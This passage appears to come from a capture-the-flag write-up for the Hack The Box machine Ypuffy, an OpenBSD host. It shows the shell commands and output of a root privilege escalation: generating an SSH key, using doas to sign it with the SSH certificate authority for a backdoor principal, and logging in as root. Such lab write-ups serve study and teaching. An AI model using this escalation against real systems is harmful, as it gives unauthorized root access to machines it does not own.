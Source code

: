 Then, we can execute following commands.
{% highlight shell %}
 # create ssh keys in /tmp without passphrase
ypuffy$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa.
Your public key has been saved in /tmp/id_rsa.pub.
The key fingerprint is:
SHA256:UFOV2ojkq0nRjiMjr5PgcQ6r/M06Y16/4UYY6nuwdxg alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[RSA 2048]----+
|        o.....   |
|       ...  .    |
|      .+ . +     |
|     ...+ o .    |
|    . o+S.       |
|.o.+oE+.o        |
|..B+o=+=         |
|.ooB=+=o.        |
|o.=BBoo+.        |
+----[SHA256]-----+

 # create public key for CA authentication.
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I test -n 3m3rgencyB4ckd00r  /tmp/id_rsa.pub 
Signed user key /tmp/id_rsa-cert.pub: id "test" serial 0 for 3m3rgencyB4ckd00r valid forever

 # move needed keys to ~/.ssh
ypuffy$ cp /tmp/id_rsa* /home/alice1978/.ssh/ 

ypuffy$ ssh root@localhost
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy#
{% endhighlight %}
